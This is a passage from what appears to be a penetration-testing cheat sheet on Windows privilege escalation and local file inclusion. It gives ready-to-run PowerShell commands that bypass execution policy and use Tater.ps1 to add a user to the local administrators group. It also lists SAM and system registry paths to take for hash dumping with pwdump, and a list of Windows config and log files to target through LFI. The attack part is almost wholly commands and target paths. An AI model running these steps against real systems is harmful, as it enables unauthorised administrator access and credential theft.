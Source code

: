 So all you do is download Tater.ps1 somewhere on the target then add administrator user or whatever.
```
powershell.exe -nop -ep bypass
Import-Module C:\Users\740i\Desktop\Tater.ps1
Invoke-Tater -Trigger 1 -Command "net localgroup administrators 740i /add"
net localgroup administrators
```



### System Files

If you find an LFI on windows you should check for these two files, the  `system`  registry and the  `SAM`  registry. These two files/registries are all we need to get the machines hashes. 
```
Systemroot can be windows
%SYSTEMROOT%\repair\SAM
windows\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM

System file can be found here
SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\RegBack\system
```
Then you can just run pwdump on these files.
```
pwdump system sam
```

List of file inclusions for Windows
```
C:\Apache\conf\httpd.conf
C:\Apache\logs\access.log
C:\Apache\logs\error.log
C:\Apache2\conf\httpd.conf
C:\Apache2\logs\access.log
C:\Apache2\logs\error.log
C:\Apache22\conf\httpd.conf
C:\Apache22\logs\access.log
C:\Apache22\logs\error.log
C:\Apache24\conf\httpd.conf
C:\Apache24\logs\access.log
C:\Apache24\logs\error.log
C:\Documents and Settings\Administrator\NTUser.dat
C:\php\php.ini
C:\php4\php.ini
C:\php5\php.ini
C:\php7\php.ini
C:\Program Files (x86)\Apache Group\Apache\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache\logs\access.log
C:\Program Files (x86)\Apache Group\Apache\logs\error.log
C:\Program Files (x86)\Apache Group\Apache2\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache2\logs\access.log
C:\Program Files (x86)\Apache Group\Apache2\logs\error.log
c:\Program Files (x86)\php\php.ini"
C:\Program Files\Apache Group\Apache\conf\httpd.conf
C:\Program Files\Apache Group\Apache\conf\logs\access.log
C:\Program Files\Apache Group\Apache\conf\logs\error.log
C:\Program Files\Apache Group\Apache2\conf\httpd.conf
C:\Program Files\Apache Group\Apache2\conf\logs\access.log
C:\Program Files\Apache Group\Apache2\conf\logs\error.log
C:\Program Files\FileZilla Server\FileZilla Server.xml
C:\Program Files\MySQL\my.cnf
C:\Program Files\MySQL\my.ini
C:\Program Files\MySQL\MySQL Server 5.0\my.cnf
```